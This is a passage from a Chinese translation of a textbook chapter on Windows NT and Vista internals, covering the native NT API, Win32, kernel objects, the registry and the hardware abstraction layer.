这种兼容性使得用户可以方便地从Windows 95移植到NT，操作系统也在高端的计算机市场上比如说服务器领域中扮演了很重要的角色。然而，用户并不急切地希望接纳其他处理器架构，在1996年Windows NT支持的四种架构中（在这个版本中增加了对DEC Alpha的支持），只有x86（就是奔腾家族）在下一个主要的发布——Windows 2000中被着重地支持。
Windows 2000代表了NT的重大进化。增加的关键技术包括即插即用功能（当使用者要安装新的PCI卡时，不再需要更改跳线）、网络目录服务（对于企业用户）、改进的电源管理（对于笔记本用户）和改进的GUI（对于任何用户）。
Windows 2000技术上的成功，领导着微软继续朝着通过提高应用程序和设备的兼容性来引导下一个系统Windows XP，而Windows 98则逐步淡出市场。Windows XP包含了一个更加友好的外观及感觉的图形界面，更加增强了微软关于关联消费者以及增加了消费者推动他们的雇主来接纳他们已经熟悉的环境的销售策略。这一策略获得了压倒性的成功，在最初的几年里，Windows XP被安装在成千上万台计算机上，这使得微软成功实现了有效地结束基于MS-DOS的Windows系统这个目标。
Windows XP代表着微软的一种新的发展路径，为桌面用户和企业用户发布了不同的版本。Windows XP系统太复杂以至于不能同时提供高质量的客户端以及服务器发布。Windows 2003服务器版本是Windows XP客户端操作系统的补充，它提供了对Intel 64位安腾处理器的支持，并且在它的第一个补丁包中，对AMD x64架构的服务器和客户机都提供了支持。微软利用用户版本和企业版本不同的发布时间来增加服务器特性，引导在商业主要应用的测试。图11-4显示了Windows用户版本和服务器版本的关系。
微软紧跟着Windows XP后面的是一个雄心勃勃的发布，令PC消费者兴奋的全新体验。最终的结果，Windows Vista，在2006年下半年完成，距离Windows XP发布大约五年。Windows Vista声称有全新开发的图形用户界面，新的安全特性。大多数改变是在使用者的可视化经验和兼容性方面。系统内部的技术大幅度地提高了，进行了很多内部编码优化和许多在界面上的改善、可测量性和可信赖性。Vista的服务器版本（Windows Server 2008）在用户版本的一年之后发布，它分享了同样的系统内核，例如核心、驱动、底层库和程序。
关于早期开发NT的人物历史在一本书《Show stopper》 [1] （Zachary 1994）里有相关的介绍。书中讲述到很多关键的人物，以及在如此庞大的软件开发工程中所经历的困难。
Windows Vista达到了微软目前为止最为全面的操作系统的巅峰。最初的计划太过于激进以至于头几年的Vista开发必须以更小的范畴重新开始。计划严重依赖于包括微软的类型安全、垃圾回收、.NET语言C#等在内的技术，以及一些有意义的特性，例如统一存储系统用来从多种不同的来源中搜索和组织数据的WinFS。整个操作系统的规模是相当惊人的。最早NT系统发行时只有300万条C/C++语句，到NT4时增长到1600万，2000是3000万，XP是5000万，而到了Vista已经超过了7000万。
规模增大的大部分原因是每次微软公司在发行新版本时都增加一些新功能。在system32的主目录中，含有1600个动态链接库（DLL）和400个可执行文件（EXE），而这还不包含让用户网上冲浪、播放音乐和视频、发电子邮件、浏览文件、整理照片甚至制作电影各种各样应用程序的目录。但是微软想让客户使用新版本，所以它兼容了老版本的所有特征，应用程序界面API、程序（小的应用软件）等。几乎很少有功能被删掉。结果随着版本的升级Windows系统越来越大。随着科技发展，Windows发布的载体也从软驱，CD发展到现在的Windows Vista上的DVD。
随着Windows上层功能和程序的膨胀使得和其他操作系统在有效大小上的比较成问题，因为很难定义某一部分是否属于操作系统。在操作系统的下层，因为执行相关联的功能，所以通信比较频繁。即使如此我们也能看到在不同的Windows之间也有很大的不同。图11-5比较了Windows和Linux的核心在CPU调度、I/O设备和虚拟内存三个主要功能方面的区别。Windows中前两部分是Linux的一半大小，但是虚拟内存部分要大一个数量级——因为有大量的功能，虚拟内存模型实现技术需要大量代码实现高速运行。
现在开始Windows Vista的技术研究。但是，在研究详细的内部结构之前，我们首先看看系统调用的本地NT API和Win32编程子系统。尽管有可移植操作系统接口（POSIX），但实际上为Windows编写的代码不是Win32就是.NET，其中.NET本身也是运行在Win32之上的。
图11-6介绍的是Windows操作系统的各个层次。在Windows应用程序和图形层下面是构造应用程序的程序接口。和大多数操作系统一样，这些接口主要包括了代码库（DLL），这些代码库可以被应用程序动态链接以访问操作系统功能。Windows也包含一些被实现为单独运行进程的服务的应用程序接口。应用软件通过远程过程调用（RPC）与用户态服务进行通信。
NT操作系统的核心是NTOS内核态程序（ntoskrnl.exe），它提供了操作系统的其他部分的实现所依赖的传统的系统调用接口。在Windows中，只有微软的程序员编写系统调用层。已经公开的用户态接口属于操作系统本身，它通过运行在NTOS层顶层的子系统（subsystem）来实现的。
最早的NT支持三个个性化子系统：OS/2、POSIX、Win32。OS/2在Windows XP中已经不使用了。POSIX也同样不使用了，但是客户可以得到一个叫做Interix的改进版POSIX的子系统，它是微软面向UNIX的服务(SFU)的一部分，因此所有设备都支持系统中原有的POSIX。尽管微软支持其他的API，但大多数Windows的应用软件都是用Win32写的。
不同于Win32，.NET并不是原来NT的内核接口上的正式的子系统。相反，.NET是建立在Win32编程模型之上的。这样就可以使.NET与现有的Win32程序很好地互通，而不必关心POSIX和OS/2子系统。WinFX API包含了很多Win32的功能，而实际上WinFX基本类库（Base Class Library）中大多数的功能都是Win32 API的简单包装器。WinFX的优点是有丰富的对象类型支持、简单一致的界面、使用.NET公共语言运行库（CLR）和垃圾收集器。
如图11-7所示，NT子系统建立了四个部分：子系统进程、程序库、创建进程（CreateProcess）钩子、内核支持。一个子系统进程只是一个服务。它唯一特殊的性质就是通过smss.exe程序（一个由NT启动的初始用户态程序）开始，以响应来自Win32的CreateProcess或不同的子系统中相应的API的请求。
程序库同时实现了高层的操作系统功能和特定的子系统进程。这些高层的操作系统功能是特定于子系统以及子系统所包含的桩程序（stub routine）的。桩程序是进行不同的使用子系统的进程间通信的。对子系统进程的调用通常是利用内核态的本地过程调用LPC（Local Procedure Call）所提供的功能。LPC实现了跨进程的进程调用。
在Win32 CreateProcess中的钩子函数（hook）通过查看二进制图像来检测子系统中每个程序请求。（如果它没有运行）通过smss.exe启动子系统进程csrss.exe。然后子系统进程开始加载程序。在其他子系统中也有类似的钩子函数（例如POSIX中的exec系统调用）。
NT内核有很多一般用途的设备，可以用来编写操作系统特定的子系统。但是为了准确地执行每一个子系统还需要加入一些特殊的代码。例如，本地NtCreateProcess系统调用通过重复使用进程实现POSIXF fork函数调用，内核提供一个Win32特殊类型串表(叫atoms)，通过进程有效实现只读字符串的共享。
子系统进程是本地端NT程序，其使用NT内核和核心服务提供的使用本地系统调用，例如smss.exe和lsass.exe（本地安全管理）。本地系统调用包括管理虚拟地址的跨进程功能（facility）、线程、句柄和为了运行用来使用特定子系统的程序而创建的进程中的异常。
像所有的其他操作系统一样，Windows Vista也拥有一套系统调用。它们在Windows Vista的NTOS层实施，在内核态运行。微软没有公布内部系统调用的细节。它们被操作系统内部一些底层程序使用，这些底层程序通常是以操作系统的一部分（主要是服务和子系统），或者是内核态的设备驱动程序的形式交付的。本地的NT系统调用在版本的升级中并没有太大的改变，但是微软并没有选择公开，而Windows的应用程序都是基于Win32的，因此Win32 API在不同Windows操作系统中是通用的，从而能够让这些应用程序在基于MS-DOS和NT Windows的系统中正确运行。
大多数内部的NT系统调用都是对内核态对象进行操作的，包括文件、线程、管道、信号量等。图11-8中给出了一些Windows Vista中NT所支持的常见内核态对象。以后，我们讨论内核对象管理器时，会讨论具体对象类型细节的。
有时使用术语“对象”来指代操作系统所控制的数据结构，这样就会造成困惑，因为错误理解成“面向对象”了。操作系统的对象提供了数据隐藏和抽象，但是缺少了一些面向对象体系基本的性质，如继承和多态性。
在本地NT API调用中存在创建新的内核态对象或操作已经存在的对象的调用。每次创建和打开对象的调用都返回一个结果叫句柄（handle）给调用者（caller）。句柄可在接下来用于执行对象的操作。句柄是特定于创建它们的具体的进程的。通常句柄不可以直接交给其他进程，也不能用于同一个对象。然而，在某些情况下通过一个受保护的方法有可能把一个句柄复制到其他进程的句柄表中进行处理，允许进程共享访问对象——即使对象在名字空间无法访问。复制句柄的进程必须有来源和目标进程的句柄。
每一个对象都有一个和它相关的安全描述信息，详细指出对于特定的访问请求，什么对象能够或者不能够针对一个特定的目标进行何种操作。当句柄在进程之间复制的时候，可添加具体的被复制句柄相关的访问限制。从而一个进程能够复制一个可读写的句柄，并在目标进程中把它改变为只读的版本。
并不是所有系统创建的数据结构都是对象，并不是所有的对象都是内核对象。那些真正的内核态对象是那些需要命名、保护或以某种方式共享的对象。通常，这些内核态对象表示了在内核中的某种编程抽象。每一个内核态的对象有一个系统定义类型，有明确界定的操作，并占用内核内存。虽然用户态的程序可以执行操作（通过系统调用），但是不能直接得到数据。
图11-9为一些本地API的示例，通过特定的句柄操作内核对象，如进程、线程、IPC端口和扇区（用来描述可以映射到地址空间的内存对象）。NtCreateProcess返回一个创建新进程对象的句柄，SectionHandle代表一个执行实例程序。当遇到异常时控制进程（例如异常、越界），DebugPort Handle用来在出现异常（例如，除零或者内存访问越界）之后把进程控制权交给调试器的过程中与调试器通信。
NtCreate线程需要ProcHandle，因为ProcHandle可以在任意一个含有句柄的进程中（有足够的访问权限）创建线程。同样，NtAllocateVirtualMemory、NtMapViewOfSection、NtReadVirtualMemory和NtWriteVirtualMemory可使进程不仅在自己的地址空间操作，也可以在分配虚拟地址和映射段，还可以读写其他进程的虚拟内存。NtCreateFile是一个内部API调用，用来创建或打开文件。NtDuplicateObject，可以在不同的进程之间复制句柄的API调用。
当然不是只有Windows有内核态对象。UNIX系统也同样支持内核态对象，例如文件、网络数据包、管道、设备、进程、共享内存的IPC设备、消息端口、信号和I/O设备。在UNIX中有各种各样的方式命名和访问对象，例如文件描述符、进程ID、System V IPC对象的整形ID和设备节点。每一类的UNIX对象的实现是特定于其类别的。文件和socket使用不同的设施facility，并且是System V IPC机制、程序、装置之外的。
Windows中的内核对象使用一个的基于NT名字空间中关于对象的句柄和命名统一设备指代内核对象，而且使用一个统一的集中式对象管理器。句柄是进程特定的，但正如上文所述，可以在被另一个进程使用。对象管理器在创建对象时可以给对象命名，可以通过名字打开对象的句柄。
对象管理器在NT名字空间中使用统一的字符编码标准（宽位字符）命名。不同于UNIX，NT一般不区分大小写（它保留大小写但不区分）。NT名字空间是一个分层树形结构的目录，象征联系和对象。
对象管理器提供统一的管理同步、安全和对象生命期的设备。对于对象管理器提供给用户的一般设备是否能为任何特定对象的用户所获得，这是由执行体部件来决定的，它们都提供了操纵每一个对象类型的内部API。
这不仅是应用程序使用对象管理器中的对象。操作系统本身也创建和使用对象——而且非常多。大多数这些对象的创建是为了让系统的某个部分存储相当一段长时间的信息或者将一些数据结构传递给其他的部件，但这都受益于对象管理器对命名和生存周期的支持。例如，当一个设备被发现，一个或多个设备创建代表该设备对象，并在理论上说明该设备如何连接到系统的其他部分。为了控制设备而加载设备的驱动程序，创建驱动程序对象用来保存属性和提供驱动程序所实现的函数的指针，这些函数是实现对I/O请求的处理。操作系统中在以后使用其对象时会涉及这个驱动。驱动也可以直接通过名字来访问，而不是间接的通过它所控制的设备来访问的(例如，从用户态来设置控制它的操作的参数)。
不像UNIX把名字空间的根放在了文件系统中，NT的名字空间则是保留在了内核的虚拟内存中。这意味着NT在每次系统启动时，都得重新创建最上层的名字空间。内核虚拟内存的使用，使得NT可以把信息存储在名字空间里，而不用首先启动文件系统。这也使得NT更加容易地为系统添加新类型的内核态的对象，原因是文件系统自身的格式不需要为每种新类型的目标文件进行改变。
一个命名的目标文件可以标记为永久性的，这意味着这个文件会一直存在，即使在没有进程的句柄指向该对象条件下，除非它被删除或者系统重新启动。这些对象甚至可以通过提供parse例程来扩展NT的名字空间，这种例程方式类似于允许对象具有UNIX中挂载点的功能。文件系统和注册表使用这个工具在NT的名字空间上挂载卷和储巢。访问到一个卷的设备对象即访问了原始卷（raw volume），但是设备对象也可以表明一个卷可以加载到NT名字空间中去。卷上的文件可以通过把卷相关文件名加在卷所对应的设备对象的名称后面来访问。
永久性名字也用来描述同步的对象或者共享内存，因此它们可以被进程共享，避免了当进程频繁启动和停止时来不断重建。设备文件和经常使用的驱动程序会被给予永久性名字，并且给予特殊索引节点持久属性，这些索引节点保存在UNIX的/dev目录下。
我们将在下一节中描叙纯NT API的更多特征，讨论Win32 API在NT系统调用的封装性。
Win32函数调用统称为Win32 API接口。这些接口已经被公布并且详细地写在了文档上。这些接口在调用的时候采用库文件链接流程：通过封装来完成原始NT系统调用，有些时候也会在用户态下工作。虽然原始API没有公布，但是这些API的功能可以通过公布的Win32 API来调用实现。随着新的Windows版本的更新，更多的API函数相应增加，但是原先存在的API调用确很少改变，即使Windows进行了升级。
图11-10表示出各种级别的Win32 API调用以及它们封装的原始API调用。最有趣的部分是关于图上令人乏味的映射。许多低级别的Win32函数有相对应的原始NT函数，这一点都不奇怪，因为Win32就是为原始NT API设计的。在许多例子中，Win32函数层必须利用Win32的参数传递给NT内核函数。例如，规范路径名并且映射到NT内核路径，包括特殊的MS-DOS设备（如LPT:）。当创建进程和线程时，使用的Win32 API函数必须通知Win32子系统进程csrss.exe，告知它有新的进程和线程需要它来监督，就像我们在11.4节里描述的那样。
一些Win32调用使用路径名，然而相关的NT内核调用使用句柄。所以这些封装流程包括打开文件，调用NT内核，最后关闭句柄。封装流程同时包括把Win32 API从ANSI编码变成Unicode编码。在图11-10的Win32函数里使用字符串作参数的实际上是两套API，例如参数CreateProcessW和CreateProcessA。当这些参数要传递到下一个API时，这些字符串必须翻译成Unicode编码，因为NT内核调用只认识Unicode。
因为已经存在的Win32接口很少随着操作系统的改变而改变，所以从理论上说能在前一个版本系统上运行的程序也能正常地在新版本的系统上运行。可在实际情况中，依然经常存在新系统的兼容性问题。Windows太复杂了以至于有些表面上不合逻辑的改动会导致应用程序运行失败。应用程序本身也有问题，例如，它们也经常做细致的操作系统版本检查或者本身就有潜在的问题只不过是在新系统上暴露出来了。然而，微软依旧尽力在每个版本上测试不同的兼容性问题，并且力图提供特定的解决办法。
Windows支持两种特殊环境，一种叫WOW。WOW32通过映射16位字符串到32位，来在32位x86系统用16位Windows 3.x应用程序。同样，WOW64允许32位的程序在x64架构的系统上运行。
Windows API体系不同于UNIX体系。对于后者来说，操作系统函数很简单，只有很少的参数以及很少的方法来执行同样的操作，从而可以有很多途径来完成同样的操作。Win32提供了非常广泛的接口和参数，常常能通过三四种方法来做同样的事情，同时把低级别和高级别的函数混和到一起，例如CreateFile和CopyFile。
这意味着Win32提供了一组非常多的接口，但是这也增加了复杂度，原因是在同一个API中糟糕的系统分层以及高低级别函数的混和。为了学习操作系统，我们仅仅关注那些低级别的函数封装了相关的NT内核的API的Win32 API。
Win32有创建和管理进程和线程的调用。Win32也有许多进程内部通信的调用，例如创建、销毁、互斥、信号、通信接口和其他IPC实体。
虽然大量的内存管理系统对程序员来说是看不见的，但是一个重要的特征是可见的：即一个进程把文件映射到虚拟内存的一块区域上。这样允许线程可以使用指针来读写部分文件，而不必执行在硬盘和内存之间具体的读写数据操作。通过内存映射，内存系统可以根据需求来执行I/O操作（要求分页）。
Windows处理内存映射文件使用三种完全不同的手段。第一种，它提供允许进程管理它们自己虚拟空间的接口，包括预留地址范围为以后用。第二种，Win32支持一种称作文件映射的抽象，这用来代替可定位的实体，如文件（文件的映射在NT的层次中称作section）。通常，文件映射是使用文件句柄来关联文件。但有时候也用来指向分页系统中的私有页面。
第三种方法是把文件映射的视图映射到一个进程的地址空间。Win32仅仅允许为当前进程创建一个视图，但是NT潜在的手段更加通用，允许为任意你有权限句柄的进程创建视图。和UNIX中的mmap相比，要区分开创建文件映射和把文件映射到地址空间的操作。
在Windows中，文件映射的内核态实体被句柄所取代。就像许多句柄一样，文件映射能够被复制到其他进程中去。这些进程中的任意一个能够根据需求映射文件到自己的地址空间中。这对共享进程间的私有内存是非常有用的，而且不必再创建文件来实现。在NT层，文件的映射（sections）也和NT名字空间保持一致，能够通过文件名来访问。
对许多程序来说，一个重要的领域是文件I/O操作。在Win32基本视图中，一个文件仅仅是一组有顺序的字节流。Win32提供超过60种调用来创建和删除文件和目录、打开关闭文件、读写文件、提取设置文件属性、锁定字节流范围以及更多基础操作的功能，这些功能基于文件系统的组织以及文件的各自访问权限。
还有更高级的处理文件数据的方法。除了主要的文件流，存在NTFS文件系统上的文件可以拥有额外的文件流。文件（甚至包括整个卷）可以被加密。文件可以被压缩成为一组相对稀疏的字节流，从而节省磁盘空间。不同硬盘的文件系统的卷可以通过使用不同级别的RAID存储而组织起来。修改文件或者目录可以通过一种直接通知的方式来实现，或者通过读NTFS为每个卷维护的日志来实现。
每个文件系统的卷默认挂载在NT的名字空间里，根据卷的名字来排列，因此，一个文件\foo\bar可以命名成\Device\HarddiskVolume\foo\bar。对于NTFS的卷来说，挂载点(Windows称作再分解点）和符号链接用来帮助组织卷。
低级别的Windows I/O模式基本上是异步的。一旦一个I/O操作开始，系统调用将允许线程对I/O操作进行初始化并且开始I/O操作。Windows支持取消操作，以及一系列的不同机制来支持线程和I/O操作完成之后的同步。Windows也允许程序规定在文件打开时I/O操作必须同步，许多库函数，例如C库和许多Win32调用，也规定I/O的同步已支持兼容性或者简化编程模型。在这些情况下，执行体会在返回到用户态前和I/O操作结束时进行同步。
Win32提供的另一些调用是安全性相关的。每个线程将和一个内核对象进行捆绑，称作令牌（token），这个令牌提供关于该线程的身份和权限相关的信息。每个目标可以有一个ACL（访问权限控制列表），这个列表详细描述了哪种用户有权限访问并且对其进行操作。这种方式通过了一种细粒度的安全机制，可以指定具体哪些用户可以或者禁止访问特定的对象。这种安全模式是可以扩展的，允许应用程序添加新的安全规则，例如限制访问时间。
Win32的名字空间不同于前面描述的NT内核名字空间。NT内核空间仅仅只有一部分对Win32 API函数可见（即使整个NT名字空间可以通过Win32使用特殊字符串来访问，如“\\.”）。在Win32中，文件访问权限和驱动器号相关。NT目录\DosDevices里包含了对一个从驱动器号到实际设备对象的数个符号链接。例如，\DosDevices\C:是指向\Device\HarddiskVolume1。这个目录同样也包含了其他Win32设备的链接，如COM1:、LPT1:和NUL:(端口号和打印端口，以及非常重要的空设备)。\DosDevices是一个真正指向\??的链接，这样有利于提高效率。另外一个NT文件夹，\BaseNamedObjects用来存储各种各样的内核对象，这些文件可以通过Win32 API来访问。这些对象包括用来同步的对象，如信号、共享内存、定时器以及通信端口，MS-DOS和设备名称。
对于底层系统接口，我们额外说一下，Win32 API也支持许多GUI操作，包括系统所有图形接口的调用。有对窗口的创建、摧毁、管理和使用的调用，以及支持菜单、工具条、状态栏、滚动条、对话框、图标和许多在屏幕上显示的元素。Win32还提供调用来画几何图形、填充、使用调色板、处理文字以及在屏幕上放置图标等。也支持对键盘鼠标和其他输入设备的响应，如音频、打印等其他输出设备。
GUI操作直接使用win32k.sys驱动，这个驱动使用特殊的函数从用户态去访问内核态的接口。因为这些调用不包含NT操作系统中的系统调用，我们将不会详细讨论。
名字空间的根在内核中维护。存储设备，如系统的卷，附属于名字空间中。因为名字空间会因为系统的每次启动重新构建，那么系统怎么知道系统配置的细节呢？答案就是Windows会挂载一种特殊的文件系统（为小文件做了优化）到名字空间。这个文件系统称作注册表（registry）。注册表被组织成了不同的卷，称作储巢（hive）。每个储巢保存在一个单独文件中（在启动卷的目录C:\Windows\system32\config\下）。当Windows系统启动时，一个叫做SYSTEM的特殊储巢被装入了内存，这是由同样的装载内核和其他启动文件（例如位于启动盘的驱动程序）的程序来完成。
Windows在系统储巢里面保存了大量的重要信息，包括驱动程序去驱使什么设备工作，什么软件进行初始化，以及什么变量来控制操作系统的操作等。这些信息甚至被启动程序自己用来决定哪些驱动程序是用于启动的驱动，哪些必须立即需要启动。这些驱动包括操作系统自身来识别文件系统和磁盘驱动的程序。
其他配置储巢用在系统启动后，描述系统安装的软件的信息，特别是用户和用户态下安装在系统上的COM（Component Object-Model)。本地用户的登录信息保存在SAM（安全访问管理器）中。网络用户的信息保存在lsass服务中，和网络服务器文件夹一起，用户可以通过上述两种配置拥有一个访问网络的用户名和密码。Windows Vista的储巢列表在图11-11中显示。
在引入注册表之前，Windows的配置信息保存在大量的.ini文件里，分散在硬盘的各个地方。注册表则把这些文件集中存储，使得这些文件可以在系统启动的过程中引用。这对Windows热插拔功能是很重要的。但是，随着Windows的发展，注册表已经变得无序。有些关于配置的信息的协议定义得很差，而且很多应用程序采取了特殊的方法。许多用户、应用程序以及所有驱动程序在运行时具有私有权限，而且经常直接更改注册表的系统参数——有时候会妨碍其他程序导致系统不稳定。
注册表是位于数据库和文件系统之间的一个交叉点，但是和每一个都不像。有整本描写注册表的书（Born，1998;Hipson，2000;Ivens 1998）。有很多公司开发了特殊的软件去管理复杂的注册表。
regedit能够以图形窗口的方式来浏览注册表，这个工具允许你查看其中的文件夹（称作键）和数据项（称作值）。微软的新PowerShell脚本语言对于遍历注册表的键和值是非常有用的，它把这些键和值以类似目录的方式来看待。Procmon是一个比较有趣的工具，可以从微软工具网站：www.microsoft.com/technet/sysinternals中找到它。
Procmon监视系统中所有对注册表的访问。有时，一些程序可能会重复访问同一个键达数万次之多。
正如名字所显示的那样，注册表编辑器允许用户对注册表进行编辑，但是一旦你这么做就必须非常小心。它很容易造成系统无法引导或损坏应用软件的安装，因此没有一些专业技巧就不要去修改它。微软承诺会在以后发布时清理注册表，但现在它仍是庞杂的一堆——比UNIX保留的配置信息复杂得多。
微软Windows Vista已经引入了一个基于事务管理的内核，用来支持对跨越文件系统和注册表操作的事务进行协调。微软计划在未来使用该功能以避免由于软件非完全正确安装而在系统目录和注册表储巢中留下当时局部状态信息所造成的元数据讹用问题。
Win32程序员通过函数调用可以很方便地访问注册表，包括创建、删除键、查询键值等。如图11-12所示。
当系统关闭时，大部分的注册表信息被存储在硬盘储巢中。因为极其严格的完整性要求使得需要纠正系统功能，自动实现备份，将元数据冲写入硬盘以防止在发生系统崩溃时所造成的损坏。注册表损坏需要重新安装系统上的所有软件。
前面的章节从用户态下程序员写代码的角度研究了Windows Vista系统。现在我们将观察系统是如何组织的，不同的部件承担什么工作以及它们彼此间或者和用户程序间是如何配合的。这是实现底层用户态代码的程序开发人员所能看见的操作系统部分，类似于子系统和本地服务，以及提供给设备驱动程序开发者的系统视图。
尽管有很多关于Windows使用方面的书籍，但很少有书讲述它是如何工作的。不过，查阅《Microsoft Windows Internals，4th ed》（Russionvich和Solomon，2004）是其中最好的选择之一。该书描述的虽然是Windows XP，但大部分的描述还是准确的。就内部机制而言，Windows XP和Windows Vista是非常相近的。
而且，微软通过Windows学术计划为大学教员和学生提供对其有帮助的Windows内核信息。该计划会发布大部分Windows Server 2003内核源代码、Cutler团队的原始NT设计文档和一大套源自Windows Internals书籍的表述资料。另外，Windows驱动工具也会提供大量内核工作信息，因为设备驱动器不仅使用I/O设备，还需要使用进程、线程、虚拟内存和进程间的通信等。
Windows Vista操作系统包括很多层，如图11-6所示。在以下章节我们将研究操作系统中工作于内核态的最底级层次。其中心就是NOTS内核层自身，当Windows启动时由ntoskrnl.exe加载。NTOS包括两层，executive（执行体）提供大部分的服务，另一个较小的层称为内核（kernel），负责实现基础线程计划和同步抽象，同时也执行陷入句柄中断以及管理CPU的其他方面。
将NTOS分为内核和执行体体现了NT的VAX/VMS根源。VMS操作系统也是由Cutler团队设计的，可分为4个由硬件实施的层次：用户、管理程序、执行体和内核，与VAX处理机结构提供的4种保护模式一致。Intel CPU也支持这4种保护环，但是一些早期的NT处理机对此不支持，因此内核和执行体表现了由软件实施的抽象，同时VMS在管理者模式下提供的功能，如假脱机打印，NT是作为用户态服务提供的。
NT的内核态层如图11-13所示。NTOS的内核层在执行体层之上，因为它实现了从用户态到内核态转换的陷入和中断机制。图11-13所示的最顶层是系统库ntdll.dll，它实际工作于用户态。系统库包括许多为编译器运行提供的支持功能以及低级库，类似于UNIX中的libc。Ntdll.dll也包括了特殊码输入指针以支持内核初始化线程、分发异常和用户态的异步过程调用（Asynchronous Procedure Calls，APC）等。因为系统库对内核运行是必需的，所以每个由NTOS创建的用户态进程都具有相同固定地址描绘的ntdll。当NTOS初始化系统时，会创建一个局部目标并且记录下内核使用的ntdll输入指针地址。
在NTOS内核和执行体层之下是称为硬件抽象层（Hardware Abstraction Layer，HAL）的软件，该软件对类似于设备寄存器存取和DMA操作之类的底层硬件信息进行抽象，同时还就BIOS固件是如何表述配置信息和处理CPU芯片上的不同（如各种中断控制器）进行抽象。BIOS可以从很多公司获得，并且被集成为计算机母板上的永久内存。
内核态下另一个主要部件就是设备驱动器。Windows内核态下任何非NTOS或HAL的设备都会用到设备驱动器，包括文件系统、网络协议栈和其他如防病毒程序、DRM软件之类的内核扩展，以及与硬件总线接口的管理物理设备驱动器等。
I/O和虚拟内存部件协作加载设备驱动程序至内核存储器并将它们连接到NTOS和HAL层。I/O管理器提供发现、组织和操作设备的接口，包括安排加载适当的设备驱动程序等。大多数管理设备和驱动器的配置信息都保留在注册表的系统储巢中。I/O管理器的即插即用下层部件保留硬件储巢内检测出的硬件信息，该储巢是保留在内存中的可变储巢而非存在于硬盘中，系统每次引导都会重新创建。
以下将详细介绍操作系统的不同部件。
1.硬件抽象层
正如之前发布的基于NT的Windows系统一样，Windows Vista的目标之一是使得操作系统在不同的硬件平台之间具有可移植性。理想情况下，如果需要在一种新型计算机系统中运行该操作系统，仅仅需要在首次运行时使用新机器编译器重新编译操作系统即可。但实际上并没有那么简单。操作系统各层有大量部件具有很好的可移植性（因为它们主要处理支持编程模式的内部数据结构和抽象，从而支持特定的编成模式），其他层就必须处理设备寄存器、中断、DMA以及机器与机器间显著不同的其他硬件特征。
大多数NTOS内核源代码由C语言编写而非汇编语言（x86中仅2%是汇编语言，比x64少1%）。然而，所有这些C语言代码都不能简单地从x86系统中移植到一个SPARC系统，然后重新编译、重新引导，因为与不同指令集无关并且不能被编译器隐藏的处理机结构及其硬件有很多不同。像C这样的语言难以抽象硬件数据结构和参数，如页表输入格式、物理存储页大小和字长等。所有这些以及大量的特定硬件的优化即使不用汇编语言编写，也将不得不手工处理。
大型服务器的内存如何组织或者何种硬件同步基元是可获得的，与此相关的硬件细节对系统较高层都有比较大的影响。例如，NT的虚拟内存管理器和内核层了解涉及内存和内存位置的硬件细节。在整个系统中，NT使用的是比较和交换同步基元，对于没有这些基元的系统是很难移植上去的。最后，系统对字内的字节分类系统存在很多相关性。在所有NT原来移植到的平台上，硬件是设置为小端（little-endian）模式的。
除了以上这些影响便携性的较大问题外，不同制造商的不同母板还存在大量的小问题。CPU版本的不同会影响同步基元的实现方式。各种支持芯片组也会在硬件中断的优先次序、I/O设备寄存器的存取、DMA转换管理、定时器和实时时钟控制、多处理器同步、BIOS设备(如ACPI)的工作等方面产生差异。微软尝试通过最下端的HAL层隐藏对这些设备类型的依赖。HAL的工作就是对这些硬件进行抽象，隐藏处理器版本、支持芯片集和其他配置变更等具体细节。这些HAL抽象展现为NTOS和驱动可用的独立于机器的服务。
使用HAL服务而不直接写硬件地址，驱动器和内核在与新处理器通信时只需要较小改变，而且在多数情况下，尽管版本和支持芯片集不同但只要有相同的处理器结构，系统中所有部件均无需修改就可运行。
HAL对诸如键盘、鼠标、硬盘等特殊的I/O设备或内存管理单元不提供抽象或服务。这种抽象功能广泛应用于整个内核态的各部件，如果没有HAL，通信时即使硬件间很小的差异也会造成大量代码的重大修改。HAL自身的通信很简单，因为所有与机器相关的代码都集中在一个地方，移植的目标就很容易确定：即实现所有的HAL服务。很多版本中，微软都支持HAL扩展工具包，允许系统制造者生产各自的HAL从而使得其他内核部件在新系统中无需更改即可工作，当然这要在硬件更改不是很大的前提下。
通过内存映射I/O与I/O端口的对比可以更好地了解硬件抽象层是如何工作的。一些机器有内存映射I/O，而有的机器有I/O端口。驱动程序是如何编写的呢？是不是使用内存映射I/O？无需强制做出选择，只需要判断哪种方式使驱动程序可独立于机器运行即可。硬件抽象层为驱动程序编写者分别提供了三种读、写设备寄存器的程序：
uc=READ_PORT_UCHAR(port);WRITE_PORT_UCHAR(port,uc);
us=READ_PORT_USHORT(port);WRITE_PORT_USHORT(port,us);
ul=READ_PORT_ULONG(port);WRITE_PORT_ULONG(port,ul);
这些程序各自在指定端口读、写无符号8、16、32位整数，由硬件抽象层决定这是否需要内存映射I/O。这样，驱动程序可以在设备寄存器实现方式有差异的机器间使用而不需要修改。
驱动程序会因为不同目的而频繁存取特定的I/O设备。在硬件层，一个设备在确定的总线上有一个或多个地址。因为现代计算机通常有多个总线（ISA、PCI、PCI-X、USB、1394等），这就可能造成不同总线上的多个设备有相同的地址，因此需要一些方法来区别它们。HAL把与总线相关的设备地址映射为系统逻辑地址并以此来区分设备。这样，驱动程序就无需知道何种设备与何种总线相关联。这种机制也保护了较高层避免进行总线结构和地址规约的交替。
中断也存在相似的问题——总线依赖性。HAL同样提供服务在系统范围内命名中断，并且允许驱动程序将中断服务程序附在中断内而无需知道中断向量与总线的关系。中断请求管理也受HAL控制。
HAL提供的另一个服务是在设备无关方式下建立和管理DMA转换，对系统范围和专用I/O卡的DMA引擎进行控制。设备由其逻辑地址指示。HAL实现软件的散布/聚合（从不相邻的物理内存块的地方写或者读）。
HAL也是以用一种可移植的方式来管理时钟和定时器的。定时器是以100纳秒为单位从1601年1月1日开始计数的，因为这是1601年的第一天，简化了闰年的计算。（一个简单测试：1800年是闰年吗？答案：不是。）定时器服务和驱动程序中的时钟运行的频率是解耦合的。
有时需要在底层实现内核部件的同步，尤其是为了防止多处理机系统中的竞争环境。HAL提供基元管理同步，如旋转锁，此时一个CPU等待其他CPU释放资源，比较特殊的情况是资源被几个机器指令占有。
最终，系统引导后，HAL和BIOS通信，检查系统配置信息以查明系统所包含的总线、I/O设备及其配置情况，同时该信息被添加进注册表。HAL工作情况摘要如图11-14所示。
2.内核层
在硬件抽象层之上是NTOS，包括两层：内核和执行体。“内核”在Windows中是一个易混淆的术语。它可以指运行在处理机内核态下的所有代码，也可以指包含了Windows操作系统核心NTOS的ntoskrnl.exe文件，还可以指NTOS里的内核层，在本章中我们使用这个概念。此外，“内核”甚至用来命名用户态下提供本地系统调用的封装器的Win32库：kernel32.dll。
